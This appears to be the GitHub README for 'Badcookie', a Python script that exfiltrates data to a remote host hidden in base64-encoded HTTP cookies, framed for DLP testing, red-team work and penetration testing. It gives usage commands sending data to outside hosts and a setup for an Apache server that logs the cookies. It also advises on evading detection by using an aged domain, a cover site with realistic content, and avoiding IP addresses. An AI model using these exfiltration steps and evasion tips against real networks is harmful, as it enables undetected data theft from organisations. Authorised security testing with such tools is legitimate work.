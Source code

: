 # Requirements
Python 2.7

### Libraries
* Requests

# Description
Badcookie exfiltrates data via base64 encoded HTTP cookies.

# Some use cases
* The script can be used for testing the effectiveness of data loss prevention systems.
* Outbound network traffic monitoring systems.
* Red Team / Blue team exercises e.g. see if the blue team can detect data exfiltraion.
* Penetration testing activities

#Things to keep in mind
* The script transmits data via http not https
* Base64 encoded data can be easily decoded
* Be mindful of the cookie size when transmitting data

#Usage
`badcookie.py <destination_host> <exfiltrated_data>`

`Example(1): badcookie.py 10.0.0.2 "very important data"`

`Example(2): badcookie.py www.secretsite.com "very important data"`

Use quotes if you plan to transmit data with whitespace


#Setting up the data exfiltration process

* To make the network traffic look convincing setup a site with a proper domain. It can be a news, blog or any other site, so when you exfiltrate data the network traffic will look like normal web traffic going to a legitimate site. (atleast this is what we are trying to accomplish)
* Fill the site with some real looking content
* If you are testing systems where there is a web filtering proxy involved, try and use domain which is  more than a year old as web filtering proxies block new domains. In either case using an aged domain name will be beneficial.
* Avoid sending data using IP addresses.
* Enable  logging of http cookies in apache ( you can use any server you like). The sample config file in this repository “000-default.conf” in the  “apache_conf” folder can be used to enable cookie logging. Place config file in /etc/apache2/sites-enabled/ and restart Apache.  You should now see a file called “cookies.log” in /var/log/apache2.
* Execute the badcookie script.
* After executing the script you should see the following log entry in cookies.log. The log shows the transmitted base64 cookie.

`10.0.0.2 - - [13/Jun/2015:18:48:17 -0500] "GET / HTTP/1.1" 200 3256 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64; Trident/7.0; MDDCJS; :11.0) like Gecko" "dGVzdGluZw=="`

* You can now decode the base64 encoded data.

* Please note that the above process is just a suggestion, you can setup the exfiltration process anyway you like.

* Have fun
